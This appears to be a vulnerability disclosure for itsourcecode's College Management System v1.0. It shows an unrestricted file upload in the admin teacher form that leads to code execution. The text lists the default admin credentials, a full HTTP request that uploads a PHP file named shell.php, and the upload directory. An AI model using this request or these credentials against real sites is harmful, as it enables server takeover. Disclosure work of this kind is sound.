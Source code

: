 # College Management System v1.0 by itsourcecode.com has arbitrary code execution (RCE)

Login account: admin@gmail.com/admin123* (Super Admin account)

vendor:  https://itsourcecode.com/free-projects/php-project/college-management-system-project-in-php-and-mysql/

Vulnerability url: /College/admin/teacher.ph

Vulnerability file: /College/admin/teacher.php

Payload:

```sql
POST /College/admin/teacher.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/College/admin/Teacher.php
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1; ci_session=9cjop1qgnjcd780kijmjrva559enogjl
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------2754910320402
Content-Length: 3466

-----------------------------2754910320402
Content-Disposition: form-data; name="first_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="middle_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="last_name"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="email"

111@qq.com
-----------------------------2754910320402
Content-Disposition: form-data; name="phone_no"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="profile_image"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------2754910320402
Content-Disposition: form-data; name="teacher_status"

Permanent
-----------------------------2754910320402
Content-Disposition: form-data; name="application_status"

Yes
-----------------------------2754910320402
Content-Disposition: form-data; name="cnic"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="dob"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="other_phone"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="gender"

Male
-----------------------------2754910320402
Content-Disposition: form-data; name="permanent_address"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="current_address"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="place_of_birth"

1111
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="matric_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="fa_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="fa_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="fa_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="ba_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ba_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ba_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="ma_complition_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ma_awarded_date"

1
-----------------------------2754910320402
Content-Disposition: form-data; name="ma_certificate"; filename=""
Content-Type: application/octet-stream


-----------------------------2754910320402
Content-Disposition: form-data; name="password"

teacher123*
-----------------------------2754910320402
Content-Disposition: form-data; name="role"

Teacher
-----------------------------2754910320402
Content-Disposition: form-data; name="btn_save"

Save Data
-----------------------------2754910320402--
```

The files will be uploaded to this directory \Admin\images

![image](https://user-images.githubusercontent.com/79501212/171629168-7db86e09-b3a7-4a43-8503-b2b972902dfd.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/79501212/171629319-8da12567-6f1a-4455-a65f-a61d9a3ccc5c.png)
